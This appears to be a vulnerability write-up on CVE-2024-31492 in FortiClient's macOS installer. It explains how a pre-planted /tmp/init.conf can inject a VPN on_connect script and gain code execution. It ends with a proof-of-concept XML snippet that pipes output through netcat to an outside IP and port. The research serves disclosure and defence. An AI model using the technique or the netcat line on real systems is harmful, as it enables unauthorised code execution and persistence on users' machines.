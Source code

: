 ![03]({{ site.baseurl }}/images/FortiClient/03.png)

#### init.conf Arbitrary Code Execution (CVE-2024-31492)

Let's check in detail the lines 464-468:

```
# dummy merge, FCT needs to run fcconfig once after installation in order to generate all plist
echo "init local config" >> /var/log/fctinstallpost.log
touch /tmp/init.conf
"$APP_SUPPORT_DIR"/bin/fcconfig -f /tmp/init.conf -s file -o merge
rm /tmp/init.conf
```

The developers were so nice, that they give us a comment, what the intent of the code it. Basically the code should do the initial setup of the plists. The plists are used as a configuration files for the software, so there might be possibility to influence the settings of the software.

What are plists anyways? Property List (plist) files on macOS are XML or binary files used to store configuration information for applications, preferences, and other system-level settings. They are commonly used by macOS and its applications to store user and system settings in a structured format.

The codes starts with creation of a file `init.conf` in the `/tmp/` folder using the `touch` command. Touch command just make sure the file exists, so we do not need to do a race condition here and it is enough just to plant file in advanced and it will be used in later stages of the code. Afterwards it applies the XML config file by running `fcconfig` with parameter merge, which gives us also idea it might probably merge provided settings with the existing one. I wasn't able to find reliable documentation for the tool, but given the other clues, we can make an educated guess of its functionality.

Now, we believe we can influence the configuration of FortiClient during installation, but what can we achieve with such config? Luckily, Fortinet provides documentation for XML configuration files, which is the type that is used here by `fcconfig` tool to create the plists. The [FortiClient XML Reference Guide](https://docs.fortinet.com/document/forticlient/7.0.7/xml-reference-guide/812076) shows that we can control practically every aspect of the FortiClient's settings. We can turn off/on all the components, like AV, vulnerability scans, removable media access, web filtering, firewall, etc. Additionally, while browsing the possibilities for VPN connection settings I was able to find possibility to run scripts on connect or on disconnect from VPN. Tada, and like that we have arbitrary code execution!

Example exploitation scenarios:

- With short-term access and limited permissions to a device, the attacker could plant configuration files in the `/tmp/` folder with VPN profile setup. One property of a VPN profile would be the `on_connect` property with arbitrary code that would be executed every time with attempt to connect to VPN within the security context of the application. The provided proof of concept snippet demonstrates execution of a TCP connection, potentially used for establishing persistence.

 ```
 ...
 <on_connect>
   <script>
 		<os>mac</os>
 		<script>echo "Connected via reverse TCP connection!" | nc 192.168.57.1 4444</script>
 	</script>
 </on_connect>
 ...
 ```
